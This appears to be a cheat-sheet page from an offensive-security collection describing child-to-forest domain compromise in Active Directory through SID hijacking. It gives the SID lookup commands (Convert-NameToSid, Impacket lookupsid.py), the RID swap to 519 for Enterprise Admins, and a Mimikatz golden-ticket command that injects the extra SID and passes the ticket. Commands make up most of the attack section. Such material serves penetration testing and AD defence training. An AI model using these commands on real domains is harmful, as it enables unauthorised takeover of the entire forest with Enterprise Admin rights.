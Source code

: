 # Child Domain to Forest Compromise - SID Hijacking

Most trees are linked with dual sided trust relationships to allow for sharing of resources.
By default the first domain created if the Forest Root.

**Requirements**:

- KRBTGT Hash
- Find the SID of the domain

    ```powershell
    $ Convert-NameToSid target.domain.com\krbtgt
    S-1-5-21-2941561648-383941485-1389968811-502

    # with Impacket
    lookupsid.py domain/user:password@10.10.10.10
    ```

- Replace 502 with 519 to represent Enterprise Admins

**Exploitation**:

- Create golden ticket and attack parent domain.

    ```powershell
    kerberos::golden /user:Administrator /krbtgt:HASH_KRBTGT /domain:domain.local /sid:S-1-5-21-2941561648-383941485-1389968811 /sids:S-1-5-SID-SECOND-DOMAIN-519 /ptt
    ```

## References

- [Training - Attacking and Defending Active Directory Lab - Altered Security](https://www.alteredsecurity.com/adlab)
